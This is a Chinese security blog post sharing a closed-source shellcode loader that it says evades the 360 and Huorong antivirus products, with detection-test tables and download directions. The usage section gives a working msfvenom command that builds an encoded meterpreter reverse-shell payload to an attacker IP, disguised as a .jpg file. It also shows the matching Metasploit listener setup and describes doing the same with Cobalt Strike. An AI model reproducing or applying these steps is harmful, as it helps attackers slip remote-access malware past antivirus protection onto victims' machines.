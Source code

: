 更新时间：2022-01-19



# 【工具分享】免杀360&火绒的shellcode加载器

# 1. 免杀效果


该`shellcode`加载器目前可以过`360&火绒`，`Windows Defender`没戏。。。
​

代码和思路暂不开源！

你可以在我的GitHub上下载该工具：

如果你访问GitHub困难，你可以在乌鸦安全公众号后台直接回复关键字：加载器 下载！



方法： 生成`msf`或`cs`的`shellcode`原生格式，命名为`crowsec.jpg`（这个是写死的），将其和`crowsec_shelllcodeBypass.exe`（这个名字可以修改的）放在一个目录下，直接双击即可！
## 1.1 当前



| **杀软\免杀效果** | **虚拟机环境：Windows 10** | **虚拟机环境：Windows 7** | **虚拟机环境：Windows server 2019** | **最新测试时间** |
| --- | --- | --- | --- | --- |
| 联网Windows Defender最新版(关闭自动发送可疑样本) | ❌ | 未测 | ❌ | 2022.01.19 |
| 联网360最新版（其实测试没有什么意义） | ✅ | ✅ | ✅ | 2022.01.19 |
| 联网火绒最新版 | 未测 | ✅ | ✅ | 2022.01.19 |



## 1.2 半年前


这个数据已没有意义。

| **~~杀软\免杀效果~~** | **~~虚拟机环境：Windows 10~~** | **~~虚拟机环境：Windows 7~~** | **~~虚拟机环境：Windows server 2019~~** | **~~最新测试时间~~** |
| --- | --- | --- | --- | --- |
| ~~联网Windows Defender最新版(关闭自动发送可疑样本)~~ | ~~✅~~ | ~~未测~~ | ~~✅~~ | ~~2021.06.21~~ |
| ~~联网360最新版（~~~~其实测试没有什么意义~~~~）~~ | ~~未测~~ | ~~未测~~ | ~~未测~~ | ~~2021.06.21~~ |
| ~~联网火绒最新版~~ | ~~未测~~ | ~~✅~~ | ~~✅~~ | ~~2021.06.21~~ |



## 2.3 说明


这个`shellcode`加载器工具是我在`2021-06-21`号做的，优化之后VT查杀为`0/68`，一个月之后我再去检查，甚至到现在去检查，当前的VT查杀依旧为`0/68`。
​

`2021-06-21`是能过`火绒`、`360`、`Windows Defender(关闭自动发送可疑样本)`
​

前几天在测试的时候，发现过不了`Windows Defender`，今天稍微优化了一下，发现还是过不了`Windows Defender`，主要原因是识别了`msf`的部分特征！！！
​

鉴于目前已经有了其他的免杀方案，所以在这里就把工具分享出来（🐶），至少还能过`360`和`火绒`。（放出来之后，基本上几小时就没用了）。
​



![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642601558210-77264d08-585e-4214-86bf-f2ac13d84d07.png)


查询时间：`2022.01.19`
​

![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642601641740-37271f4b-227f-42e2-aca9-8f728e283c54.png)


# 3. 使用方法
# 3.1. msf上线


在这里使用msfvenon生成shellcode，为了好点的效果，这里使用`shikata_ga_nai` 编码器器对`shellcode`进行混淆编码，编码之后的`shellcode`并不是所有杀软都识别不出来，详情可以看我以前的文章：
xxxx
```
 msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 7 -b '\x00'  lhost=10.211.55.2 lport=1234  -f raw -o crowsec.jpg
```


![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642602696391-0b17ed2f-a282-491a-a92a-1473b5213338.png)


使用msf进行监听：
​

![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642604110630-14245c70-16eb-4d0b-8cd1-d7528db5e163.png)
```python
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload  windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:1234
```
### 3.1.1 360
![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642604510319-4ab109f8-01d4-484b-92fe-89972e00357b.png)
### 3.1.2 Windows Defender


被杀
![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642606086645-b320419d-f848-4b95-b272-068940bc7fe2.png)


### 3.1.3 火绒
![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642606183320-773dde9e-d3a4-4bf4-bede-a3639eeb3aa5.png)




## 3.2 Cobalt Strike上线


在这里只说思路，能够过`火绒`和`360`，但是不能过`Windows Defender`，同样的问题：特征出现在`shellcode`上面。


![image.png](https://cdn.nlark.com/yuque/0/2021/png/8378754/1624333743849-3faa3f92-b9be-4d13-8639-4ef47d31d91e.png)


![image.png](https://cdn.nlark.com/yuque/0/2021/png/8378754/1624333663432-aeef544c-00f5-46d0-afa5-be8eac02cbaf.png)
将文件保存为`crowsec.jpg`（下图是一个示例，主要是太累了，不想换了。。。）
![image.png](https://cdn.nlark.com/yuque/0/2021/png/8378754/1624333734629-94ba4bc1-8893-4882-a850-8e546fb212c4.png)
现将生成的bin文件修改为png文件，然后双击上线操作


![image.png](https://cdn.nlark.com/yuque/0/2021/png/8378754/1624333800699-980bd71e-f2ff-4383-b14e-7453e21db605.png)


但是这里可以发现，当前的`payload`已经被标记特征，直接被杀，但是免杀`360`和`火绒`是不影响的。
![image.png](https://cdn.nlark.com/yuque/0/2021/png/8378754/1624333824066-d215bf3b-bff0-413e-9791-8ed69dcecafe.png)
​

# 

